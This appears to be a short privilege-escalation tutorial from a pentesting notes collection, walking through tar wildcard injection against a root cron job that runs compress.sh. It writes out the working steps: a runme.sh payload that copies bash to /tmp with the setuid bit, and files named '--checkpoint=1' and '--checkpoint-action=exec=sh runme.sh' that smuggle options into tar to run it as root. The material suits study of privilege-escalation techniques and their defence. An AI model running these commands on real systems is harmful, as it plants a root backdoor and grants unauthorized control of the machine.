


# Cron Wildcards


This can be utilized outside the cron as well

So here check the crontab

```bash
cat /etc/crontab
```

We find this


So we check what it is actually doing

```bash
cat /usr/local/bin/compress.sh
```

We see that there is a tar file with a wildcard. We also check our permissions 

```bash
ls -la /usr/local/bin/compress.sh
```



Then we write an exploit

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
```

Then we make it fully executable

```bash
chmod +x runme.sh
```

Now we will be running some tar commands (since the file is of tar)

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```



So basically what is happening is, the wild card is taking the —checkpoint=1 and appending it to it and then when it appends, it carries out an action cause of the other statement and runs the executable runme.sh file and we get root access


---
[Back to Scheduled tasks](./README.md)
